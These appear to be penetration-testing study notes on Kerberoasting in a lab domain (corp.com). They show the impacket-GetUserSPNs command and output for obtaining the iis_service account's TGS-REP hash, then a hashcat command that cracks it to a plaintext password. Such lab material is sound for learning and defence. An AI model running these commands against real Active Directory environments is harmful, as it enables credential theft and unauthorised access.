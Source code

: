 ```
...
d8a2033fc64622eaef566f4740659d2e520b17bd383a47da74b54048397a4aaf06093b95322ddb81ce63694e0d1a8fa974f4df071c461b65cbb3dbcaec65478798bc909bc94:Strawberry1
...
```
+ We successfully retrieved the plaintext password of the user _iis_service_ by performing Kerberoasting

#### Kerberoasting With Impacket on Linux
Next, let's perform Kerberoasting from Linux
+ We can use _`impacket-GetUserSPNs`_ with the IP of the domain controller as the argument for **-dc-ip**
+ Since our Kali machine is not joined to the domain, we also have to provide domain user credentials to obtain the TGS-REP hash
+ As before, we can use **-request** to obtain the TGS and output them in a compatible format for Hashcat
```
sudo impacket-GetUserSPNs -request -dc-ip <DC_IP> <DOMAIN>/<USER>
```
+ Example:
```
kali@kali:~$ sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete                                      
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName    Name         MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  -----------  --------  --------------------------  ---------  ----------
HTTP/web04.corp.com:80  iis_service            2022-09-07 08:38:43.411468  <never>               


[-] CCache file is not found. Skipping...
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$21b427f7d7befca7abfe9fa79ce4de60$ac1459588a99d36fb31cee7aefb03cd740e9cc6d9816806cc1ea44b147384afb551723719a6d3b960adf6b2ce4e2741f7d0ec27a87c4c8bb4e5b1bb455714d3dd52c16a4e4c242df94897994ec0087cf5cfb16c2cb64439d514241eec...
```
+ Above shows that we successfully obtained the TGS-REP hash
+ **NOTE**: If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. 
	+ We can use _ntpdate_ or _rdate_ to do so

Now, let's store the TGS-REP hash in a file named **hashes.kerberoast2** and crack it with Hashcat as we did before:
```
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...

$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$21b427f7d7befca7abfe9fa79ce4de60$ac1459588a99d36fb31cee7aefb03cd740e9cc6d9816806cc1ea44b147384afb551723719a6d3b960adf6b2ce4e2741f7d0ec27a87c4c8bb4e5b1bb455714d3dd52c16a4e4c242df94897994ec0087cf5cfb16c2cb64439d514241eec
...
a96a7e6e29aa173b401935f8f3a476cdbcca8f132e6cc8349dcc88fcd26854e334a2856c009bc76e4e24372c4db4d7f41a8be56e1b6a912c44dd259052299bac30de6a8d64f179caaa2b7ee87d5612cd5a4bb9f050ba565aa97941ccfd634b:Strawberry1
...
```
+ Above shows that we could successfully crack the TGS-REP hash again, providing the same plaintext password as before
